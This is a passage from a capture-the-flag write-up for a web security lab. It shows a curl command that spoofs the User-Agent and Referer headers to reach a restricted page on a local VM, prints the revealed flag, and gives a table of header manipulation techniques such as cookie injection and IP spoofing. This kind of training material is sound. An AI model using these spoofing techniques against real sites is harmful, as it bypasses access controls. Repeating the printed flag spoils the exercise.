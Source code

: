 #### 🥉 **Step 3 - HTTP Header Spoofing**
```bash
# Vulnerability Exploitation via curl
# Method: Craft HTTP request with required headers

curl -H "User-Agent: ft_bornToSec" \
     -H "Referer: https://www.nsa.gov/" \
     "http://192.168.64.2/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" \
     | grep flag

# Alternative browser-based approach
# 1. Open browser developer tools
# 2. Navigate to Network tab
# 3. Modify request headers before sending
# 4. Or use browser extensions to modify headers
```

#### 🏆 **Step 4 - Successful Access Control Bypass**
```
HTTP Request Headers:
User-Agent: ft_bornToSec
Referer: https://www.nsa.gov/
Host: 192.168.64.2

Server Response: Access granted to restricted content
Flag Revealed: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

**Complete Attack Flow:**
1. 🔍 **Page Discovery** - Find hidden/restricted page via enumeration
2. 📄 **Source Analysis** - Inspect HTML comments for access requirements
3. 🔧 **Header Requirements** - Identify required Referer and User-Agent values
4. 🛠️ **Request Crafting** - Use curl or browser tools to spoof headers
5. 🚪 **Access Bypass** - Successfully bypass client-side restrictions
6. 🎉 **Flag Recovery** - Access restricted content and extract flag

### 🌍 HTTP Header Manipulation Techniques

| Header Type | Purpose | Manipulation Method | Security Impact |
|-------------|---------|-------------------|-----------------|
| **🔗 Referer** | Source page validation | Spoof originating URL | Bypass referral restrictions |
| **🌐 User-Agent** | Browser/client identification | Custom client string | Circumvent browser-based blocks |
| **🍪 Cookie** | Session/authentication | Modify or inject values | Session hijacking, privilege escalation |
| **🏠 Host** | Target server specification | Host header injection | Virtual host bypass, cache poisoning |
| **🔑 Authorization** | Authentication credentials | Token manipulation | Unauthorized access |
| **📍 X-Forwarded-For** | Client IP identification | IP spoofing | Geo-restriction bypass |

---